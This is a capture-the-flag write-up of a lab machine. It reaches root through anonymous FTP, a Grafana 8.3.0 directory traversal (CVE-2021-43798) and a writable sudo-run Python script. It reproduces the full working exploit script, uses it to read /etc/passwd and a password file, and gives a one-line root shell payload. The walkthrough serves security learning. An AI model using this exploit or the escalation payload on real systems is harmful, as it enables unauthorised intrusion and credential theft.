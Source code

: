 ```yaml
---
sticker: emoji//1f6b6
---
```

# ENUMERATION


## OPEN PORTS

![[Pasted image 20241025014342.png]]


```ad-note
OPEN PORTS

21: `FTP (Anonymous login enabled)`
22: `SSH`
80: `HTTP`
3000: `HTTP`

```

First, we need to log into ftp taking advantage of that anonymous login that's enabled:

![[Pasted image 20241025014539.png]]
We have a directory called `mantenimiento`, inside of this directory, we can find the following:

![[Pasted image 20241025014619.png]]

A `database.kdbx` file is found inside of it, let's download it to our host machine and inspect it:

![[Pasted image 20241025014823.png]]

If we try to use `keepass2` on the file, it is protected by a password, let's start with our websites enumeration to get that password.

We have two websites, let's try to enumerate them further using fuzzing and other techniques

## FUZZING

### PORT 80 WEBSITE

![[Pasted image 20241025014929.png]]

Found a `/maintenance.html` directory that may be useful, let's visit it:

![[Pasted image 20241025015023.png]]

So, seems like the password is in the `/tmp` directory, seems like we need to perform a path traversal in some sort of way to get that, let's enumerate the other website



### PORT 3000 WEBSITE

![[Pasted image 20241025013600.png]]
A lot came from it, so, fuzzing seems pretty useless here, let's visit the website:

![[Pasted image 20241025013631.png]]

Default page is a login page, something interest I found was this:


![[Pasted image 20241025015156.png]]


Seems like it is running a `grafana` om the `v8.3.0`, let's search for some exploit in this version

![[Pasted image 20241025015326.png]]

Perfect, found exactly what I needed, a [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/PATH TRAVERSAL|path traversal]] vulnerability that allow us to read that `/tmp/pass.txt` file:

```ad-important
exploit: [exploit](https://www.exploit-db.com/exploits/50581)
```

```python
# Exploit Title: Grafana 8.3.0 - Directory Traversal and Arbitrary File Read
# Date: 08/12/2021
# Exploit Author: s1gh
# Vendor Homepage: https://grafana.com/
# Vulnerability Details: https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p
# Version: V8.0.0-beta1 through V8.3.0
# Description: Grafana versions 8.0.0-beta1 through 8.3.0 is vulnerable to directory traversal, allowing access to local files.
# CVE: CVE-2021-43798
# Tested on: Debian 10
# References: https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p47p

#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import requests
import argparse
import sys
from random import choice

plugin_list = [
    "alertlist",
    "annolist",
    "barchart",
    "bargauge",
    "candlestick",
    "cloudwatch",
    "dashlist",
    "elasticsearch",
    "gauge",
    "geomap",
    "gettingstarted",
    "grafana-azure-monitor-datasource",
    "graph",
    "heatmap",
    "histogram",
    "influxdb",
    "jaeger",
    "logs",
    "loki",
    "mssql",
    "mysql",
    "news",
    "nodeGraph",
    "opentsdb",
    "piechart",
    "pluginlist",
    "postgres",
    "prometheus",
    "stackdriver",
    "stat",
    "state-timeline",
    "status-histor",
    "table",
    "table-old",
    "tempo",
    "testdata",
    "text",
    "timeseries",
    "welcome",
    "zipkin"
]

def exploit(args):
    s = requests.Session()
    headers = { 'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.' }

    while True:
        file_to_read = input('Read file > ')

        try:
            url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read
            req = requests.Request(method='GET', url=url, headers=headers)
            prep = req.prepare()
            prep.url = url
            r = s.send(prep, verify=False, timeout=3)

            if 'Plugin file not found' in r.text:
                print('[-] File not found\n')
            else:
                if r.status_code == 200:
                    print(r.text)
                else:
                    print('[-] Something went wrong.')
                    return
        except requests.exceptions.ConnectTimeout:
            print('[-] Request timed out. Please check your host settings.\n')
            return
        except Exception:
            pass

def main():
    parser = argparse.ArgumentParser(description="Grafana V8.0.0-beta1 - 8.3.0 - Directory Traversal and Arbitrary File Read")
    parser.add_argument('-H',dest='host',required=True, help="Target host")
    args = parser.parse_args()

    try:
        exploit(args)
    except KeyboardInterrupt:
        return


if __name__ == '__main__':
    main()
    sys.exit(0)
            
```


# EXPLOITATION

## LAUNCHING THE EXPLOIT

So, with the exploit in our hands, let's start with the next stage, let's launch the attack and try to read `/etc/passwd` to check if it works:

![[Pasted image 20241025015835.png]]
And it works correctly, let's read our `/tmp/pass.txt` file!

![[Pasted image 20241025015908.png]]

```ad-hint
`/tmp/pass.txt`: `t9sH76gpQ82UFeZ3GXZS`
```


Nice, we got what we needed, let's log in ssh using that password and the user `freddy` we previously read in that `/etc/passwd` file:

![[Pasted image 20241025020149.png]]

Nice, we got access, let's start with the privilege escalation.

# PRIVILEGE ESCALATION



## SUDO -L

![[Pasted image 20241025020240.png]]

Seems like we have a `/opt/maintenance.py` file we can exploit in order to get root access, let's check at the code:

![[Pasted image 20241025020359.png]]

Something simple, just a print statement on it, let's check if we can write in it:

![[Pasted image 20241025020446.png]]

And we can indeed write in it, let's escalate our privileges, for this, I used this code:

```python
import os
os.system("/usr/bin/python3 -c 'import os; os.system(\"/bin/bash\")'")
```

This will pop a new shell with root privileges:

![[Pasted image 20241025020740.png]]

And just like that, the CTF is done!